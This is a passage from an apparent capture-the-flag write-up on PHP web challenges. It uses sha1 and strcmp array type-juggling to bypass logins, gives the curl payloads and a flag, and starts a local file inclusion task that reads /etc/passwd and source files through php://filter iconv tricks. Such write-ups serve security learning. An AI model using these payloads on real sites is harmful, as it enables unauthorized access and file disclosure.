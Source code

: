 }
</code></pre>
<p>Will make the value of <code>$data</code> always empty in the first request:</p>
<pre><code>$data = "";
</code></pre>
<p><em><strong>How about $shavalue?</strong></em><br><br>
In <strong>PHP</strong>, <code>sha1(array()) === NULL</code>:<br></p>
<p><img src="pic1.png" alt="pic1"></p>
<p>And<br></p>
<p><img src="pic3.png" alt="pic3"></p>
<p>So, when <code>$data === ""</code> and <code>$shavalue === NULL</code>, we're going to pass this part. The payload:  <br></p>
<pre><code>curl -b "SESSIONID=" "http://server.com/962d13fd2a584598d5f68c4408169e22.php?I=Crewmates&user%5fdata[]="
</code></pre>
<p>It leads us to <code>21232f297a57a5a743894a0e4a801fc3.php</code>.</p>
<h3 id="task3cmplogin">Task 3: CMP Login</h3>
<p>The clue in the login page:</p>
<pre><code>StRcMp CoMpAnY very sercure
</code></pre>
<p><code>strcmp()</code> is <a href="https://hydrasky.com/network-security/php-string-comparison-vulnerabilities/">vulnerable</a>. So the final payload is:</p>
<pre><code class="language-shell">curl -X POST -d "username=admin&pass[]=ab" http://localhost:8003/21232f297a57a5a743894a0e4a801fc3.php
</code></pre>
<p>Flag: <code>PTITCTF{PasswordIsVeryStrongSoThatYouCanNotGuessOrBypass}</code></p>

## PISBLOG

<h3 id="task1localfileinclusion">Task 1: Local File Inclusion</h3>
<p>Endpoint <code>policy.php?q=/etc/passwd</code> has <strong>Local File Inclusion</strong>. But the server not allow <code>base64</code> string in query. So, we can not use <code>?q=php://filter/convert.base64-encode/resource=index.php</code> to read files content. Rot 13 <code>php://filter/string.rot13/resource=index.php</code> is not work too, because it's not convert <? tag --> content not show up.</p>
<p>But, i found <a href="https://www.php.net/manual/en/filters.convert.php">convert.iconv.*</a>.</p>
<pre><code>?q=php://filter/convert.iconv.utf-16le.utf-8/resource=index.php
</code></pre>
<p>It's read data in <code>utf-16el</code> encode, and output in <code>utf-8</code>.</p>